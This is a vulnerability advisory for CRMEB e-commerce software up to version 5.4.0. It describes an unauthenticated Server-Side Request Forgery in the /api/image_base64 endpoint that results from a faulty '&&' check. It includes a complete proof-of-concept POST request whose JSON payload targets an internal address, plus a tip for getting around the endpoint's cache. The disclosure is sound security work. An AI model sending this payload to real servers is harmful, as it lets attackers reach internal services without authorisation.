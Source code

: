 BUG_Author:
Rui Jie

Affected version:
CRMEB Standard Edition New Retail Social E-commerce System
Version<=5.4.0

Vendor:
https://www.crmeb.com/

Software:
https://gitee.com/ZhongBangKeJi/CRMEB
https://github.com/crmeb/CRMEB


Vulnerability File:
app/api/controller/v1/PublicController.php
app/common.php

Description:
A vulnerability classified as Server-Side Request Forgery has been identified in CRMEB. This affects sections of the app/api/controller/v1/PublicController.php file. Manipulation of the parameter image/code leads to Server-Side Request Forgery
It's an unauthorised interface, and doesn't even require any users.
A server-side request can be forged by anyone by visiting /api/image_base64 and passing the parameter image/code 
Pass json data
`{"image": "http://127.0.0.1:67?1=xxx", "code":""}`
Even if here on the incoming imageurl/codeurl judgement, but here there is a logical problem, through the `&&` connection of the conditional judgement, even if there is no picture suffix, will not meet the conditions, but also will continue to perform subsequent functions to image_to_base64 to achieve the SSRF attack

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121447950.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121451269.png)
POC:
```
POST /api/image_base64 HTTP/1.1

Host: crmeb.cc

Origin: http://crmeb.cc

Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774

Upgrade-Insecure-Requests: 1

Content-Type: application/json

Referer: http://crmeb.cc//api/image_base64

Accept-Language: zh-CN,zh;q=0.9

Accept-Encoding: gzip, deflate

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Cache-Control: max-age=0

Content-Length: 53

  

{"image":"http://127.0.0.1:67?1=12221231","code":""}
```
Trigger curl here(app/common.php)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121444887.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446514.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446706.png)
However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution `http://127.0.0.1:67/?1=change me`.
